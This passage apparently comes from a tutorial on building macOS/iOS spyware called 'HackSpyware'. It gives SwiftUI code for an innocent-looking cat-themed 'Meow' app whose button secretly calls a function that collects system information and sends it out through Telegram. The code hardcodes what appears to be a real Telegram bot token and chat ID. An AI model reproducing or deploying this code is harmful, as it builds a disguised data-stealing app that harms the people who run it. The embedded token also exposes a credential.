 In SwiftUI, we can easily create a simple interface with a button that, when pressed, triggers the collection and sending of the system information:     

```swift
import SwiftUI

struct ContentView: View {
    @State private var message: String = "Meow-meow!"
    
    var body: some View {
        ZStack {
            Image("city")
                .resizable()
                .aspectRatio(contentMode: .fit)
                .frame(minWidth: 0, maxWidth: .infinity)
                .edgesIgnoringSafeArea(.all)

            VStack (alignment: .center) {
                Spacer()
                Text("Meow")
                    .font(.largeTitle)
                    .fontWeight(.light)
                Divider().background(Color .white).padding(.trailing, 128)

                Text(message)
                    .fontWeight(.light)// displays the message from HackSpyware
                Divider().background(Color .white).padding(.trailing, 128)
                
                Button(action: {
                    // when the button is pressed, call the 
                    // function of HackSpyware
                    HackSpyware.shared.botToken = "7725786727:AAEuylKfQgTg5RBMeXwyk9qKhcV5kULP_po"
                    HackSpyware.shared.chatId = "5547299598"
                    
                    HackSpyware.shared.sendSystemInfo()
                    
                    // update message text on completion
                    message = "Meow!"
                }) {
                    Text("meow")
                        .padding()
                        .background(Color.blue)
                        .foregroundColor(.white)
                        .cornerRadius(8)
                }
            }
            .foregroundColor(.white)
            .padding(.horizontal, 244)
            .padding(.bottom, 96)
        }
    }
}

struct ContentView_Previews: PreviewProvider {
    static var previews: some View {
        ContentView()
    }
}
```
